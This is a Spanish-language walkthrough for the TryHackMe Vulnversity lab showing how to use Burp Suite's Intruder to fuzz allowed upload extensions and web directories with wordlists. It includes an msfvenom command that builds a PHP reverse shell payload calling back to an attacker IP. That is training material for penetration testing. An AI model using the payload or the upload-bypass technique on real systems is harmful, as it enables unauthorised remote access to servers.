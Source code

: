 # Burp Suite – Uso del Intruder

Maquinas a utilizar **Kali Linux y  Laboratorio de Try Hack Me  Vulnversity**  [https://tryhackme.com/room/vulnversity](https://tryhackme.com/room/vulnversity)

 

Una funcionalidad muy poderosa que tiene burp suite es el intruder, el cual nos permitirá realizar ataques de diccionarios en cualquier parte de nuestras peticiones HTTP. Por lo que en esta ocasión, veremos cómo hacer fuzzing utilizando un diccionario con burp suite.

- Como hicimos anteriormente ponemos la configuración del navegador web.
    
    **Ajustes → Settings**
    
    **General→ Network Settings**
    
    **Manual proxy configuration**
    
    **HTTP Proxy: 127.0.0.1  Port: 8080**
    

- Activamos la interceptación en BurpSuite
    
    **Proxy → intercept on**
    
- Subimos el archivo malicioso que habíamos creado con el siguiente comando:
    
    ```bash
    msfvenom -p php/reverse_php LHOST=10.21.166.149 LPORT=443 -f raw > pwned2.php 
    ```
    
    ![image.png](./imagenes/image%20122.png)
    
    ![image.png](./imagenes/image%20123.png)
    

- Vamos a enviar la petición al **Intruder.** Damos clip derecho y **Send to Intruder.**
    
    ![image.png](./imagenes/image%20124.png)
    

![image.png](./imagenes/image%20125.png)

- Seleccionamos todo y pulsamos en el botón Clear.
    
    ![image.png](./imagenes/image%20126.png)
    
- En un terminal creamos un archivo txt donde vamos a meter nombre de extensiones, las que se nos ocurran.
    
    ```bash
    nano extensiones.txt
    ```
    
    ![image.png](./imagenes/image%20127.png)
    

- Vamos a decirle a BurpSuite que vaya probado línea a línea del archivo extensiones.txt hasta acertar con la extensión.
    
    Escogemos el texto donde quiero aplicar la sustitución y pulsamos el **botón Add.**
    
    ![image.png](./imagenes/image%20128.png)
    
    ![image.png](./imagenes/image%20129.png)
    

- Nos vamos a la **pestaña Settings** dentro de **Intruder.**
    
    ![image.png](./imagenes/image%20130.png)
    

- En **Grep - Extrac**t , activamos la casilla “**Extract the following items…**” esta parte es importante ya que así sabremos si un intento fue exitoso o no. Y pulsamos el botón **Add**
    
    ![image.png](./imagenes/image%20131.png)
    

- Pulsamos en el botón **Fetch response**
    
    ![image.png](./imagenes/image%20132.png)
    
    ![image.png](./imagenes/image%20133.png)
    

- Selecciono el mensaje de error y pulsamos OK
    
    ![image.png](./imagenes/image%20134.png)
    
    BurpSuit nos guarda la regla.
    
    ![image.png](./imagenes/image%20135.png)
    
    Cuando el mensaje sea diferente nos lo indicara.
    

- Nos vamos a la pestaña **Payloads**. Y en **Payload configuration** pulsamos en el botón **Load** para cargar muestro archivo de  extensiones.txt.
    
    ![image.png](./imagenes/image%20136.png)
    
    ![image.png](./imagenes/image%20137.png)
    
- Pulsamos en el botón **Star attack**
    
    ![image.png](./imagenes/image%20138.png)
    
    ![image.png](./imagenes/image%20139.png)
    

---

Con BurpSuite en caso de no tener otras herramientas también podríamos hacer **Fuzzing Web.**

- Activamos **intercept on en BurpSuite**
- En el navegador ponemos la URL de la pagina web `http://10.10.15.36:3333/`
    
    ![image.png](./imagenes/image%20140.png)
    
    ![image.png](./imagenes/image%20141.png)
    

- Añadimos lo **/test** a la primera línea de la siguiente forma y lanzamos el **Intruder**
    
    ![image.png](./imagenes/image%20142.png)
    

- Escogemos tests y pulsamos Add
    
    ![image.png](./imagenes/image%20143.png)
    

- Pestaña **Payload** y en **Payload confiration** le añadiríamos en **Load la ubicación del diccionario (que no sea muy grande o se bloquea)** a utilizar o mediante el botón de **add** le podríamos **manualmente** la palabras que queremos que nos busque.
    
    ![image.png](./imagenes/image%20144.png)
    

- Pulsamos en **Start attack**
    
    ![image.png](./imagenes/image%20145.png)